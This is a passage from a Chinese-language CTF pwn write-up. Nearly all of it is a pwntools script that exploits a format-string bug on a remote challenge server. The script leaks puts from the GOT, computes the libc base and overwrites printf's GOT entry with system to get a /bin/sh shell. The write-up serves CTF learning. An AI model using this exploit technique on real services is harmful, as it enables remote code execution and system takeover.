 只允许读取`0x30`进行fmt，所以对于payload的构造要慎重  

除此之外补充一点：如果读取的字节太少那就很难完成任意地址写，此时出题人往往希望你利用fmt进行泄露  

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')

elf = ELF('./pwn')
libc = ELF('./libc.so.6')
io = remote("39.106.48.123",29840)
puts_got = elf.got['puts']
read_got = elf.got['read']
printf_got = elf.got['printf']
memset_got = elf.got['memset']

print(hex(printf_got))

print(p64(read_got))
payload1 = b'AAAAAAAA' + b'|%p|'*10
offset = 8
payload2 = b'%9$s' + b'\x00\x00\x00\x00' + p64(puts_got)  #注意地址被00截断 这里用。ljust补齐8字节也可以
io.recvuntil(b"data")

io.sendline(payload2)
puts_addr = u64(io.recvuntil(b'data')[-10:-4].ljust(8, b'\x00'))
print(hex(puts_addr))

base_addr = puts_addr - libc.symbols['puts']
system_addr = base_addr + libc.symbols['system']
print('system:',hex(system_addr))

data1 = system_addr & 0xFF
data2 = ((system_addr & 0xFFFFFF) >> 8) - data1
data1 = str(data1)
data2 = str(data2)

payload = b'%'+ data1.encode() + b'c%12' + b'$hhn'
payload += b'%'+ data2.encode() + b'c%13' + b'$hn'
payload = payload.ljust(0x20,b'A') + p64(printf_got) + p64(printf_got+1)
payload = payload.ljust(0x30,b'A')

print(pidof(io))
pause()
io.send(payload)
io.sendline(b"/bin/sh\x00")
io.interactive()
```
### Inversted world
这道题真是超超超有意思  
只要善用gdb动调，理解程序在干什么就很好做了  
_read函数实现与read方向相反的读写操作  
